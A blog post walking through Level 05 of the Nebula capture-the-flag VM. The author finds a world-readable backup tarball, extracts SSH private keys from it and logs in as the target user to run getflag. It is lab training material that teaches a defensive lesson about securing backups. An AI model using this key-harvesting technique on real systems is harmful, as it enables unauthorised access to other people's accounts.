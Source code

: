 ```yaml
---
layout: post
title: "Nebula Series - Level 05"
---
```


*Nebula is the first in a series of VMs from Exploit Exercises. It consists of 20 levels which range
in difficulty from simple to intermediate and cover topics like Linux privilege escalation and file
system race conditions.*

**Level 05** reminds us to lock down our backups

<!--more-->

Ok, so the first thing to understand is that you need to secure your backups. The instructions for this level suggest we keep an eye out for weak permissions. Easy enough, let's
take a look at the target user's home directory

```bash
level05@nebula:~$ ls -l
total 0
```

At first glance it doesn't seem like there's anything there but if we include the `-a` flag to list
hidden files (aka dotfiles) we see some interesting directories:

```bash
level05@nebula:~$ ls -la
total 9
drwxr-x--- 1 flag05 level05   80 2020-04-27 20:02 .
drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw------- 1 flag05 flag05    23 2020-04-27 20:02 .bash_history
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
drwx------ 2 flag05 flag05    60 2020-04-27 20:02 .cache
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
```

That `.backup` looks promising -- it's readable by anyone -- let's see what was backed up.

```bash
level05@nebula:~$ ls -la /home/flag05/.backup/
total 2
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
drwxr-x--- 1 flag05 level05   80 2020-04-27 20:02 ..
-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz
```

A tarball... whats it hold? We can use `tar` with `-t` to list the files in an archive and `-f` to
specify which archive

```bash
level05@nebula:~$ tar -tf /home/flag05/.backup/backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```

There they are! The keys to the castle! Let's extract them to a new `/flag05keys` directory in our
home. Here, `-x` indicates we want to extract the files, `-v` enables verbose output, `-f`
again identifies the archive we're working with, and `-C` allows us to specify where the extracted
files should go. tar won't create the directory for us though so we run `mkdir ~/flag05keys` first.

```bash
level05@nebula:~$ mkdir ~/flag05keys && tar -xvf /home/flag05/.backup/backup-19072011.tgz -C ~/flag05keys
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```

Let's check that the public key is the same as the one in `.ssh/authorized_keys`

```bash
level05@nebula:~$ diff ~/flag05keys/.ssh/authorized_keys ~/flag05keys/.ssh/id_rsa.pub
```

No output indicates these files are identical. That means, if this "backup" is an accurate
representation of our target's `.ssh`, we can connect as flag05 over `ssh` by providing this private
key with `-i`

```bash
level05@nebula:~$ ssh -i ~/flag05keys/.ssh/id_rsa flag05@localhost

The authenticity of host localhost (127.0.0.1) cant be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added localhost (ECDSA) to the list of known hosts.

      _   __     __          __
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ /
  /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

 * Documentation:  https://help.ubuntu.com/
New release '12.04 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

flag05@nebula:~$
```

It worked! Now that we're user `flag05`, we can run `getflag` and move on.

```bash
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```

In Summary:

- Security is about the weakest link -- protect your backups


